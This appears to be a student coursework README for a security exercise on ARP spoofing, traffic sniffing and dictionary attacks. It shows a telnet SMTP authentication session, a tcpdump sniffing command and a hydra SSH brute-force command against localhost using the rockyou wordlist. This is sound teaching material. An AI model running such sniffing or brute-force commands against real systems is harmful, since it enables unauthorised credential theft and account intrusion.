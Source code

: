 # Attack is the best defense

## Resource

- [Network sniffing](https://www.lifewire.com/definition-of-sniffer-817996)
- [ARP spoofing](https://www.veracode.com/security/arp-spoofing)
- [Connect to SendGrid’s SMTP relay using telnet](https://docs.sendgrid.com/ui/account-and-settings/troubleshooting-delays-and-latency)
- [What is Docker and why is it popular?](https://www.zdnet.com/article/what-is-docker-and-why-is-it-so-darn-popular/)
- [Dictionary attack](https://en.wikipedia.org/wiki/Dictionary_attack)

## Tasks

<details>
<summary><a href="./0-sniffing">0. ARP spoofing and sniffing unencrypted traffic</a></summary><br>

<a href='https://postimg.cc/dZFTgZM5' target='_blank'><img src='https://i.postimg.cc/nrjYjq3f/image.png' border='0' alt='image'/></a>

```sh
fusion@ubuntu$ telnet smtp.sendgrid.net 587
Trying 167.89.121.145...
Connected to smtp.sendgrid.net.
Escape character is '^]'.
220 SG ESMTP service ready at ismtpd0013p1las1.sendgrid.net
EHLO ismtpd0013p1las1.sendgrid.net
250-smtp.sendgrid.net
250-8BITMIME
250-PIPELINING
250-SIZE 31457280
250-STARTTLS
250-AUTH PLAIN LOGIN
250 AUTH=PLAIN LOGIN
auth login           
334 VXNlcm5hbWU6
VGhpcyBpcyBteSBsb2dpbg==
334 UGFzc3dvcmQ6
WW91IHJlYWxseSB0aG91Z2h0IEkgd291bGQgbGV0IG15IHBhc3N3b3JkIGhlcmU/ISA6RA==
235 Authentication successful
mail from: fusion@kalache.fr
250 Sender address accepted
rcpt to: julien@google.com
250 Recipient address accepted
data
354 Continue
To: Julien
From: fusion
Subject: Hello from the insecure world

I am sending you this email from a Terminal.
.
250 Ok: queued as Aq1zhMM3QYeEprixUiFYNg
quit
221 See you later
Connection closed by foreign host.
fusion@ubuntu$ 
```

<a href='https://postimages.org/' target='_blank'><img src='https://i.postimg.cc/kG0NxDH6/image.png' border='0' alt='image'/></a>

```sh
# Run this when there is no other process running,
# ...tried to find a way to specifically filter the specif process but
# ...the best option was to run it in a virtual enviroment
# ...also base64 should be your best friend
sudo tcpdump -A -l
```

- [user\_authenticating\_into\_server](./user_authenticating_into_server) binary script file.

</details>

<details>
<summary><a href="./1-dictionary_attack">1. Dictionary attack</a></summary><br>

<a href="https://ibb.co/Ltr6sZh"><img src="https://i.ibb.co/7WQV01N/image.png" alt="image" border="0"></a>

- [Wordlist](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) **Rockyou.txt**

```sh
# command
hydra -V -s 2222 -l fusion -P rockyou.txt 127.0.0.1 ssh -t 64
```

</details>